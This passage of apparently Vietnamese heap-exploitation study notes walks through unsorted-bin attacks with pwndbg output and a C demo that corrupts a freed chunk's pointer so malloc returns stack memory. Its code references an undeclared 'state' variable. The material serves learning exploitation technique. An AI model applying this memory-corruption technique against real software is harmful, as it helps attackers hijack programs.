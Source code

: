 -	Yêu cầu cấp phát bộ nhớ từ malloc() được đặt vào unsorted list.
	-	Sau khi cấp phát, `&main_arena[0]-16` được lưu vào biến `state` (0x7fffffffde40).
	-	vì giá trị biến state != 0, nên sẽ in ra dòng thông báo.

>lưu giá trị vào trong stack

```nasm
pwndbg> c
Continuing.

Breakpoint 5, 0x0000000000400727 in main ()
pwndbg> i r  rax
rax            0x602010	6299664
pwndbg> p main_arena.bins[0]
$2 = (mchunkptr) 0x602000
pwndbg> x/4gx 0x602000 
0x602000:	0x0000000000000000	0x0000000000000091
0x602010:	0x00007ffff7dd1b78	0x00007fffffffde30
pwndbg> p main_arena.bins[1]
$3 = (mchunkptr) 0x7fffffffde30
pwndbg> x/4gx 0x7fffffffde30
0x7fffffffde30:	0x00007fffffffde60	0x0000000000400727
0x7fffffffde40:	0x00007ffff7dd1b78	0x0000000000602010
pwndbg> c
Continuing.
Hello world!
[Inferior 1 (process 12410) exited normally]
pwndbg> 
```
## Example 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
  
int main(){
    unsigned long long stack_var[3] = {0};
 
    fprintf(stderr,"Stack : %p\n", &state);
    unsigned long long *buf1 = malloc(130);
    char *buf2 = malloc(500);
  
    free(buf1);
 
    stack_var[0] = 0x90;
    stack_var[2] = (unsigned long long)stack_var;
 
    buf1[1] = (unsigned long long)(((char*)&stack_var) - 8);
    buf1 = malloc(130);
    char *buf3 = malloc(130);
  
    read(STDIN_FILENO,buf3,130);
}
```
>set breakpoints
```nasm
tinnt@ubuntu:~/research/heap/unsorted-bin$ gdb unsorted-bin-into-stack -q
pwndbg: loaded 191 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from unsorted-bin-into-stack...(no debugging symbols found)...done.
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004006a6 <+0>:	push   rbp
   0x00000000004006a7 <+1>:	mov    rbp,rsp
```